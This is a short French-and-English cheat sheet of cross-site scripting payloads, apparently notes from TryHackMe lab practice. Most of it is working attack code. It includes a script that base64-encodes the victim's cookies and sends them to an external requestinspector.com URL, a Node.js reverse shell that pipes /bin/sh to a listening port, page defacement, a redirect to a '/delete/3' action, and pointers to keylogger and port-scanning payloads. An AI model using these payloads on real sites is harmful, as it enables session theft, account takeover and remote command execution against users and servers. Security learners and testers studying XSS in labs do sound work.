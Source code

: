 # XSS Cross Site Scripting

Le payload peut être écrit en Javascript, VBScript, Flash and CSS.  
## Check this GitHub
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
On peut retrouver des payloads sur XSS-Payloads.com

##### Une connaissance de JavaScript est plus qu'utile



## Common Payloads :

### Popup's :
<script>alert(“Hello World”)</script>
- Creates a Hello World message popup on a users browser.
sinon :  <iframe src="javascript:alert(`xss`)"> 

### Get hostname
In Javascript window.location.hostname will show your hostname :
<script>alert(window.location.hostname)</script>

### Get cookies
Cookies :
<script>alert(document.cookie);</script>


### Writing HTML (document.write) 
- Override the website's HTML to add your own (essentially defacing the entire page).


### XSS Keylogger 
(http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 
- You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.


### Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) 
- A mini local port scanner (more information on this is covered in the TryHackMe XSS room).


# Reflected XSS : Client-Side -> URL bar

http://10.10.186.74/#/track-result?id=<iframe src="javascript:alert(`xss`)">


<script>fetch('https://requestinspector.com/inspect/01gkc0pj9dad25nw3twvkf96hk?cookie=' + btoa(document.cookie));</script>


## REDIRECTION DEPUIS L'URL :
<script>window.location='URL'</script>

## REDIRECTION DEPUIS UN BOUT DU SITE
<script>window.location='/delete/3'</script>



## DEFACING THE PAGE
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
où thm-title est l'id. Ici, c'était un span du genre
<span id='thm-title'>kenjf</span>


## Reverse shell 
Set LPORT to Local Port  
Set LHOST to Local Host
```html
<script>
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(1234, "127.0.0.1", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
</script>
```